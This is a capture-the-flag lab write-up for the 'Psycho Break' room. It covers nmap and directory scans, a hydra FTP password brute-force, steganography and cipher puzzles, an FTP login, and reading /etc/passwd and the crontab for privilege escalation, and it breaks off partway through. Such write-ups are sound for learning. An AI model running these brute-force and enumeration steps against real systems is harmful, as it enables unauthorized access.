# Psycho Break

This room is based on a video game called evil within. 
Help Sebastian and his team of investigators to withstand the dangers that come ahead.  

## Recon

### Start with finding the ports

`:> nmap -Pn -p- -r 10.64.162.136`  

```md
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
'''

### Increase the level of detail

`:> nmap -Pn -p21,22,80 -sV -O -r 10.64.162.136` 
```md
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
```

### Basic Vulnerability Scan

`:> map -Pn -p21,22,80 -sV -O -r -sC 10.64.162.136 `

```md
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:2f:fb:3b:f3:95:c3:c6:df:31:d6:e0:9e:99:92:42 (RSA)
|   256 92:24:36:91:7a:db:62:d2:b9:bb:43:eb:58:9b:50:14 (ECDSA)
|_  256 34:04:df:13:54:21:8d:37:7f:f8:0a:65:93:47:75:d0 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Becon Mental Hospital
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Directory Enumeration

`>: dirb http://10.64.162.136:80 /usr/share/wordlists/SecLists/dirb/common.txt`

```md
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb  7 23:11:13 2026
URL_BASE: http://10.64.162.136:80/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.64.162.136:80/ ----
==> DIRECTORY: http://10.64.162.136:80/css/                                                  
+ http://10.64.162.136:80/index.php (CODE:200|SIZE:838)                                      
==> DIRECTORY: http://10.64.162.136:80/js/                                                   
+ http://10.64.162.136:80/server-status (CODE:403|SIZE:278)                                  
                                                                                             
---- Entering directory: http://10.64.162.136:80/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                             
---- Entering directory: http://10.64.162.136:80/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sat Feb  7 23:11:16 2026
DOWNLOADED: 4612 - FOUND: 2

```

### Checking the Source Code

Potential pointer to `sadistRoom`



The artifact: `<!-- To find more about Sadist visit https://theevilwithin.fandom.com/wiki/Sadist -->`

## Web

***Potential Usernames***
Sebastian Castellanos
Joseph Oda
Juli Kidman

### Attack the FTP

`:> hydra -L characters.txt -P /usr/share/wordlists/rockyou.txt -t 5 10.64.162.136 ftp`  

  

... Takes longer than finding the password through the rest of this exercise... never completed...  

### Find the sadistRoom



***sadistRoom source code review***  

 

`<!-- To find more about Sadist visit https://theevilwithin.fandom.com/wiki/Sadist -->`

***Get the key***  

[sadistKey](assets/psycho-104.png)

### Move to the Locker Room

  



Ciphertext: `Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv`

***Identify the Cipher***

Atbash  

  

***Find the Plaintext***

Cyberchef  

  

### Move to the Map

  

### Move to the Safehouse

  

***Basic Search***  

`:> strings <image name> >> images.txt`

***search for potential keys***  

`:> grep '.\{10,\}' images.txt`  

  

***Directory Enumeration***

`:> gobuster dir -u http://10.64.162.136/SafeHeaven/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```md
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.64.162.136/SafeHeaven/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/imgs                 (Status: 301) [Size: 324] [--> http://10.64.162.136/SafeHeaven/imgs/]
/keeper               (Status: 301) [Size: 326] [--> http://10.64.162.136/SafeHeaven/keeper/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

### The Keeper

  

The artifact: `<!-- To find more about the Keeper visit https://theevilwithin.fandom.com/wiki/The_Keeper -->`

  

The Artifact: `<!--To Find it Add Reverse To Google-->`  

The image:  

  

The location: 

  

... the keeper key is found..

### The Abandoned Room

  

### Laura the Spiderlady  

  

***Code Review***  

  

The artifacts:  

```md
<!-- There is something called "shell" on current page maybe that'll help you to get out of here !!!-->
<!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->
```

***Shell***  

  

Only `ls` is permitted  

  

Vist this new directory.  

## Help Mee

`:> unzip helpme.zip`  

`:> cat helpme.txt`

Interesting name: Ruvik  

### Table.jpg

The file does not open. 

`:> strings Table.jpg`  

```md
Joseph_Oda.jpgUT
.....
Joseph_Oda.jpgUT
PD"h^
key.wavUT           <-- Important
```

`:> xxd Table.jpg`  

Magic Numbers: 504b 0304

[Page of file signautres](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5?permalink_comment_id=4111259)  

`:> cp Table.jpg table.zip`

Listen to the file and hear...

Then decode  

  


### Joseph_Oda.jpg

`:> steghide --info Joseph_Oda.jpg`  

  

`:> steghide --extract -sf Joseph_Oda.jpg`  

  

## Crack it Open

```md
ftp> open 10.64.162.136
Connected to 10.64.162.136.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.64.162.136]
Name (10.64.162.136:root): joseph
331 Password required for joseph
Password:
230 User joseph logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rwxr-xr-x   1 joseph   joseph   11641688 Aug 13  2020 program
-rw-r--r--   1 joseph   joseph        974 Aug 13  2020 random.dic
226 Transfer complete
ftp> mget .
mget random.dic? yes
200 PORT command successful
150 Opening BINARY mode data connection for random.dic (974 bytes)
226 Transfer complete
974 bytes received in 0.00 secs (1.2552 MB/s)
mget program? yes
200 PORT command successful
150 Opening BINARY mode data connection for program (11641688 bytes)
226 Transfer complete
11641688 bytes received in 0.09 secs (120.6715 MB/s)
ftp> mget *
mget program? yes
200 PORT command successful
150 Opening BINARY mode data connection for program (11641688 bytes)
226 Transfer complete
11641688 bytes received in 0.09 secs (122.5077 MB/s)
mget random.dic? yes
200 PORT command successful
150 Opening BINARY mode data connection for random.dic (974 bytes)
226 Transfer complete
974 bytes received in 0.00 secs (17.8631 MB/s)
```

`:> strings program > program.txt && grep '.\{13,\}' program.txt` ... lots of output, nothing useful...  

`:> chmod +x program`

`:> strings random.dic > refined.dic`

```python
#!/usr/bin/env python3

import subprocess
import os
import sys

program_path = "./program"
dictionary_file = "refined.dic"

if __name__ == "__main__":

    f = open("random.dic", "r")
    test_keys = f.readlines()

    for key in test_keys:
        #key = str(key.replace("\n",""))
        print (key)
        subprocess.run({"./program", key})
```

Use dcode.fr to identfy and decipher.

## Go Capture the Flag

### user.txt

ssh with kidman's credentials.  

### root.txt

`:> sudo -l` cannot be run by kidman  

`:> cat /etc/passwd` has no valuable information.  

`:> cat /etc/crontab` has results

```md
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py
```

`:> cat /var/.the_eye_of_ruvik.py`

```python
import subprocess
import random

